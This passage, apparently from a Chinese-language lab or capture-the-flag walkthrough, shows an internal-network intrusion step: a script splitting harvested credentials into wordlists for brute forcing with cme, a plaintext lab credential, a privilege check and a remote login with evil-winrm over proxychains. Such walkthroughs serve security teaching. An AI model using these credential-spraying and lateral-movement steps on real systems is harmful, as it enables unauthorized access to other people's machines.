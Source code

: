```plain
with open('credentials.txt', 'r') as file:
    lines = file.readlines()

usernames = [line.split('|')[1].strip() for line in lines[2:]]
passwords = [line.split('|')[2].strip() for line in lines[2:]]

with open('user.txt', 'w') as user_file:
    for username in usernames:
        user_file.write(username + '\n')

with open('pwd.txt', 'w') as pwd_file:
    for password in passwords:
        pwd_file.write(password + '\n')
```

使用 cme 进行爆破

[![](assets/1706233449-f2d4cdfd8c8607f71a8dbeaefeb8737f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240124143607-daa3b904-ba82-1.png)

不过慢慢发现 Fscan 中有这么一条

```plain
[*] NetBios: 172.22.14.46    XIAORANG\XR-0923
```

正好凭据也有一条

```plain
XR-0923 | zhangshuai | wSbEajHzZs
```

所以其实不用爆破，直接 RDP 就可以了

[![](assets/1706233449-81684d1896b23e34cedd9155c4c6223d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240124143750-186de69c-ba83-1.png)

### 信息搜集

查看当前所拥有权限

```plain
whoami /priv
```

[![](assets/1706233449-441de6924f2567fd5d34eb24c96ecd8f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240124143758-1ccc2b04-ba83-1.png)

是`Remote Management Use`成员

可以参考[https://forum.butian.net/share/2080](https://forum.butian.net/share/2080)

使用`evil-winrm`连接此机器

```plain
proxychains evil-winrm -i 172.22.14.46 -u zhangshuai -p wSbEajHzZs
```

[![](assets/1706233449-05b5b9b5dcbabda25f7d27ebe99dc172.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240124143803-203e0442-ba83-1.png)
